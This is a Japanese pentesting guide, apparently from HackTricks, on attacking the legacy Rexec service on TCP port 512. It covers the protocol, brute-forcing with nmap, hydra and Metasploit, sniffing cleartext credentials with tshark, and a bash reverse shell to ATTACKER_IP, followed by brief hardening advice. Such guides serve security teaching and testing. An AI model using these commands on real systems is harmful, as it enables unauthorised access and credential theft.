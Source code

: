 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## 基本情報

Rexec (remote **exec**) は、元々のバークレー *r*-サービススイートの一つです（`rlogin`、`rsh` などと共に）。これは **平文のユーザー名とパスワードのみで認証された** **リモートコマンド実行** 機能を提供します。このプロトコルは1980年代初頭に定義され（RFC 1060参照）、現在では **設計上不安全** と見なされています。それにもかかわらず、いくつかのレガシーUNIX / ネットワーク接続機器ではデフォルトで有効になっており、内部のペンテスト中に時折現れます。

**デフォルトポート:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥  すべてのトラフィック – 認証情報を含む – は**暗号化されていない**状態で送信されます。ネットワークをスニッフィングする能力を持つ誰でも、ユーザー名、パスワード、コマンドを回復できます。

### プロトコルの概要

1. クライアントがTCP 512に接続します。
2. クライアントは3つの**NUL終端**文字列を送信します：
* 標準出力/標準エラーを受信したいポート番号（ASCII形式、通常は`0`）、
* **ユーザー名**、
* **パスワード**。
3. 実行する**コマンド**を含む最終的なNUL終端文字列が送信されます。
4. サーバーは、単一の8ビットステータスバイト（0 = 成功、`1` = 失敗）とコマンド出力を返します。

つまり、`echo -e`と`nc`だけで交換を再現できます：
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
有効な資格情報であれば、同じ接続で `id` の出力がそのまま返されます。

### クライアントを使用した手動操作

多くのLinuxディストリビューションは、依然として **inetutils-rexec** / **rsh-client** パッケージ内にレガシークライアントを含んでいます:
```bash
rexec -l user -p password <target> "uname -a"
```
`-p`を省略すると、クライアントはパスワードをインタラクティブに要求します（ワイヤ上で平文で表示されます！）。

---
## 列挙とブルートフォース

### [**ブルートフォース**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
`rexec-brute` NSEは、上記で説明したプロトコルを使用して、非常に迅速に認証情報を試します。

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` は専用の **rexec** モジュールを持ち、最も高速なオフラインブルートフォースツールです。 `medusa` (`-M REXEC`) と `ncrack` (`rexec` モジュール) も同様に使用できます。

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
モジュールは成功するとシェルを生成し、資格情報をデータベースに保存します。

---
## 資格情報のスニッフィング

すべてが平文であるため、**ネットワークキャプチャは非常に貴重です**。 トラフィックのコピーがあれば、ターゲットに触れることなく資格情報を抽出できます：
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wiresharkで*Decode As …​* TCP 512 → REXECを有効にして、きれいに解析されたフィールドを表示します。)

---
## ポストエクスプロイトのヒント

* 提供されたユーザーの権限でコマンドが実行されます。`/etc/pam.d/rexec`が誤って設定されている場合（例：`pam_rootok`）、rootシェルが可能なことがあります。
* Rexecはユーザーのシェルを無視し、コマンドを`/bin/sh -c <cmd>`を介して実行します。したがって、典型的なシェルエスケープトリック（`;`、``$( )``、バックティック）を使用して複数のコマンドを連結したり、リバースシェルを生成したりできます：
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* パスワードは他のシステムの**~/.netrc**に保存されていることが多いです。1つのホストを侵害すると、それを再利用して横移動することができます。

---
## ハードニング / 検出

* **rexecを公開しないでください**; SSHに置き換えてください。ほとんどの現代の*inetd*スーパサーバーは、デフォルトでサービスをコメントアウトします。
* どうしても保持する必要がある場合は、TCPラッパー（`/etc/hosts.allow`）やファイアウォールルールでアクセスを制限し、アカウントごとに強力なパスワードを強制してください。
* :512へのトラフィックと`rexecd`プロセスの起動を監視してください。単一のパケットキャプチャで侵害を検出するのに十分です。
* `rexec`、`rlogin`、`rsh`を一緒に無効にしてください – それらはほとんど同じコードベースと脆弱性を共有しています。

---

## 参考文献

* Nmap NSE `rexec-brute`ドキュメント – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploitモジュール`auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
